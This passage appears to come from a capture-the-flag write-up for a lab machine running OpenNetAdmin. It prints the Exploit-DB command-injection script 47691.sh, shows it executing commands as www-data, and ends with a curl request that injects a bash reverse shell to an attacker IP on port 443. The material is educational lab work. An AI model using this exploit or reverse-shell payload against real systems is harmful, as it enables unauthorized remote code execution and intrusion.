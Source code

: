 ```
-------------------------------------------------------------------------------------- ---------------------------------

Shellcodes: No Results
```

`cat /usr/share/exploitdb/exploits/php/webapps/47691.sh`
```
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done                  
```


# Exploitation
## OpenNetAdmin
`$ ./47691.sh http://10.10.10.171/ona/`
```
$ ifconfig
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.171  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::250:56ff:feb9:4560  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:45:60  txqueuelen 1000  (Ethernet)
        RX packets 453815  bytes 66614391 (66.6 MB)
        RX errors 0  dropped 29  overruns 0  frame 0
        TX packets 450398  bytes 188929517 (188.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2573  bytes 198753 (198.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2573  bytes 198753 (198.7 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Interactive Shell
`$ curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.16.12/443 0>%261'&xajaxargs[]=ping" http://10.10.10.171/ona/`
